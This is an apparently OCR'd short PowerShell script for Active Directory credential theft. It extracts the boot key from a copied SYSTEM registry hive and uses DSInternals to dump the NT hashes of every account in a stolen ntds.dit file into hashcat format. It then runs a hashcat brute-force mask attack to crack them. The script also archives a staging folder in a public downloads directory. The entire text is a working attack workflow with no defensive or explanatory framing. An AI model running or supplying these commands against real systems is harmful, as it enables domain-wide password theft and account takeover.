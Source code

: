#https://www.dsinternals.com/en/


Compress-Archive -Path C:\Users\Public\Downloads\poon -DestinationPath C:\Users\Public\Downloads\poon.zip


#Install-Module DSInternals -Force

$Key = Get-BootKey -SystemHiveFilePath C:\Users\p4yl0ad\Desktop\AD\poon\registry\SYSTEM
 
Get-ADDBAccount -BootKey $Key -DatabasePath 'C:\Users\p4yl0ad\Desktop\AD\poon\ntds.dit' -All |
  Format-Custom -View HashcatNT | 
  Out-File C:\Users\p4yl0ad\Desktop\AD\poon\Hashdump.txt

hashcat -m 1000 -a 3 --custom-charset1=?l?d?u --username -o cracked.txt .\Hashdump.txt ?1?1?1?1?1?1?1?1

